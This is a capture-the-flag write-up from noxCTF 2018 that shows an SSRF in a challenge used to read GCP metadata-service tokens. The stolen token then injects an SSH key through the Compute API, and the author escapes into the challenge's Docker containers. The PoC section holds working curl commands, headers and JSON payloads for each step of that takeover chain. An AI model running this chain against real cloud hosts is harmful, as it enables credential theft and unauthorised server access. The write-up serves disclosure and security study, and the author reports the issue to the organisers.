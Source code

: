 # noxCTF-2018-PSRF-as-Pwn

## Story
When I was play noxCTF 2018, I saw a challenge named PSRF, then I thought that might be SSRF, PostScript, or both.  
Then I decided to look at that.
I trying to solve it by the way I think it should be, but I always got HTTP 500 when I trying to access another server, so I decided to use another way to do it.

## Recon
The challenge provide an input box and a radio box, and it will send a HTTP GET request to 
`http://35.241.245.36/api/v1/upload?url=http://your_url&method=get`  
like this, and it will return an image name, and the result of the SSRF will store under `http://35.241.245.36/images/`  
  
The challenge has kubernetes logo on the bottom of the page like the screenshot below, and the IP is 35.241.245.36.  
![Page Screenshot](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-10%20%E4%B8%8A%E5%8D%883.10.19.png)  
  
I immediately realized that is a GCP machine, so I tested the backend server by sending HTTP request to my server to see if it is also on GCP, and it is.  
![GCP determine](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-10%20%E4%B8%8A%E5%8D%883.38.42.png) 

## Cloud Based Attack
I think there is not much people know about [http://metadata.google.internal](http://metadata.google.internal).  
Well, basically, it is a "feature" provided by Google Cloud Platform, you can use it to access information about the project and instances, but it also include the time limited API token of service account under the project. It is enable by the default.

## PoC
1. Sending SSRF Payload and get the result  
```
curl -s 'http://35.241.245.36/images/'`curl -s "http://35.241.245.36/api/v1/upload?url=http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token&method=get"`
```

2. And you will get something like this, one access token, and it's type, which is Bearer.
```
{"access_token":"xxxxxxxxxx","expires_in":3063,"token_type":"Bearer"}
```

3. Doing this for other information we need  
```
http://metadata.google.internal/computeMetadata/v1/project/project-id
http://metadata.google.internal/computeMetadata/v1/instance/name
http://metadata.google.internal/computeMetadata/v1/instance/zone
```

4. Now, you can use this API on your own computer `https://www.googleapis.com/compute/v1/projects/{}/zones/{}/instances/{}`  
  With header
```
Metadata-Flavor: Google
Authorization: Bearer xxxxxxxx_token_from_first_step_xxxxxxxx
```

5. You will get some thing like this.
```
.........................
 ],
 "metadata": {
  "kind": "compute#metadata",
  "fingerprint": "2bsm86CRs-0=",
  "items": [
   {
    "key": "instance-template",
    "value": "projects/720594190990/global/instanceTemplates/gke-psrf-dev-default-pool-9ae6b68d"
   },
   {
    "key": "created-by",
    "value": "projects/720594190990/zones/europe-west1-b/instanceGroupManagers/gke-psrf-dev-default-pool-9ae6b68d-grp"
   },
   {
    "key": "gci-update-strategy",
    "value": "update_disabled"
   }
.........................
```
    We only need the fingerprint

6. Set the ssh key
Send a POST request to this link with the header and data
`https://www.googleapis.com/compute/v1/projects/{}/zones/{}/instances/{}/setMetadata`  
```
Metadata-Flavor: Google
Authorization: Bearer xxxxxxxx_token_from_first_step_xxxxxxxx
Content-Type: application/json
```
```
{
  "fingerprint":"2bsm86CRs-0=",
  "items": [
    {
      "key": "sshKeys",
      "value": "username:ssh-rsa AAAAB..................4KeQzSMFH userid"
    }
  ]
}
```
7. You just replace the original ssh key to yours.
P.S. You can also do this on the whole project.  
The API detail can be found on [Managing SSH keys in Metadata](https://cloud.google.com/compute/docs/instances/adding-removing-ssh-keys)

## Solving the challenge by not its design
I ssh to the server. I know it is using kubernetes, so I run `docker ps`  
![docker ps](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-10%20%E4%B8%8A%E5%8D%883.57.22.png)

Then `docker exec -it xxxxxxxxx /bin/sh`  
Then `ls`

![source code](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-07%20%E4%B8%8B%E5%8D%8811.10.32.png)

Easy, just solved the challenge by looking at the source code

## Follow up
I report this security issue to the team, and just fix it pretty quick.  
![coversation_1](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-07%20%E4%B8%8B%E5%8D%8811.28.22.png)  
![coversation_2](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-07%20%E4%B8%8B%E5%8D%8811.43.38.png)

## Applicable environment
Not only GCP has these kind of management interface, you can also found similar thing on AWS.  
Most of CTF use docker to host challenges, but in most of the challenges that don't limit the network, so it is possible to do a privilege escalation on pwn or web challenges.

## References
[Twistlock Protection for Kubernetes Specific Attacks](https://www.twistlock.com/2018/05/30/twistlock-protection-kubernetes-specific-attacks/)
